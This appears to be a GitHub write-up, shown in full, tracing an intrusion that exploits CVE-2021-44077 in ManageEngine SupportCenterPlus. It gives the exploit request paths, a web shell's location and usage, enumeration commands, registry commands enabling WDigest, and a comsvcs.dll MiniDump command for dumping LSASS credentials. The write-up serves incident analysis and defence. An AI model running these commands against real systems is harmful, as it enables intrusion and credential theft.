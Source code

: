 # Attack Roadmap

### Will the Real Msiexec Please Stand Up? Exploit Leads to Data Exfiltration

<img src="AttackRoadmap.png"  width="20%" height="20%">

## Let's Summarize Each Step
#### 1. Exploit [CVE-2021-44077](https://nvd.nist.gov/vuln/detail/CVE-2021-44077) The exploit looks very similar to a publicly available POC exploit on [GitHub](https://github.com/horizon3ai/CVE-2021-44077).
##### Exploit Method: RCE via two HTTP requests.
 - Request 1: POST request to /RestAPI/ImportTechnicians?step=1 contains `msiexec.exe` and was written to C:\Program Files\ManageEngine\SupportCenterPlus\bin\msiexec.exe.

 - Request 2: GET request to /RestAPI/s247action?execute=s247AgentInstallationProcess&apikey=asdasd, and invoke the uploaded `msiexec.exe`.

  ![image](https://github.com/user-attachments/assets/ce028655-d691-4c2d-86e3-370d9ce76742)

#### 2. Web Shell Deployment:
- The Malicous msiexec.exe contains encoded web shell once `msiexec.exe /i Site24x7WindowsAgent.msi EDITA1=asdasd /qn` there is a webshell file `jm2.jsp` written to `C:\Program Files\ManageEngine\SupportCenterPlus\custom\login\fm2.jsp`, this way will allow the threat actor to maintain the access with no need to execute the exploit once again.
- Now you have an access to the system through `http://<victim_ip:8080/custom/login/jm2.jsp` then you can `Execute Commands` and `View and Download files`
  
  ![image](https://github.com/user-attachments/assets/65b4b314-1bf1-44cb-b281-8c5fa18156ac)

#### 3. System Enumeration
- Then basic enumuration is made.
  ```
  https://server.example/custom/login/fm2.jsp?cmd=arp -a
  https://server.example/custom/login/fm2.jsp?cmd=systeminfo
  https://server.example/custom/login/fm2.jsp?cmd=tasklist
  https://server.example/custom/login/fm2.jsp?cmd=wmic computersystem get domain
  ```
#### 4. Credential Dumping
- The Threat Actor Checked if the `WDigest` is Enabled because When WDigest is Enabled `LSASS` stores passwords in Plaintext.
- Command Used:
  ```
   powershell.exe reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
  ```
- Command To Enable WDigest:
  ```
  powershell.exe  Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '1'
  ```
 - Stealing Credentials:
   ```
   C:\windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll MiniDump  C:\windows\temp\logctl.zip full
   ``` 
 - 
